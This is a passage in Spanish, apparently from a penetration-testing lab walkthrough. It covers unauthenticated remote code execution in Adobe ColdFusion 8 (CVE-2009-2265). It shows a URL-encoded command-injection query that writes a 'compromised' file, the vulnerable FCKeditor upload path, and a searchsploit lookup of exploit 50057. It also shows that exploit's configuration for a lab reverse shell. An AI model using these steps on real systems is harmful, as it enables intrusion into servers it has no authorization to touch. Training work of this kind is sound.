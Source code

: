 ```r
# Decoded: http://www.example.com/index.cfm?; echo "This server has been compromised!" > C:\compromise.txt

http://www.example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
```

Esta URL incluye un punto y coma (`%3B`) al comienzo de la cadena de consulta, lo que puede permitir la ejecución de múltiples comandos en el servidor. Esto podría potencialmente añadir funcionalidad legítima con un comando no deseado. El comando `echo` incluido imprime un mensaje en la consola, seguido de un comando de redirección para escribir un archivo en el directorio `C:` con un mensaje indicando que el servidor ha sido comprometido.

Un ejemplo de un ataque RCE no autenticada en ColdFusion es la vulnerabilidad `CVE-2009-2265` que afectó a las versiones de Adobe ColdFusion 8.0.1 y anteriores. Este exploit permitió a usuarios no autenticados cargar archivos y obtener ejecución remota de código en el host objetivo. La vulnerabilidad existe en el paquete FCKeditor, y es accesible en la siguiente ruta:

```r
http://www.example.com/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=
```

`CVE-2009-2265` es la vulnerabilidad identificada en nuestra búsqueda anterior en searchsploit como `Adobe ColdFusion 8 - Remote Command Execution (RCE)`. Pásalo a un directorio de trabajo.

### Searchsploit

```r
searchsploit -p 50057

  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
File Type: Python script, ASCII text executable

Copied EDB-ID #50057cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
```

Una revisión rápida de `cat` del código indica que el script necesita alguna información. Configura la información correcta y lanza el exploit.

### Exploit Modification

```r
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex
```

El exploit tomará un poco de tiempo en lanzarse, pero eventualmente devolverá una shell remota funcional.
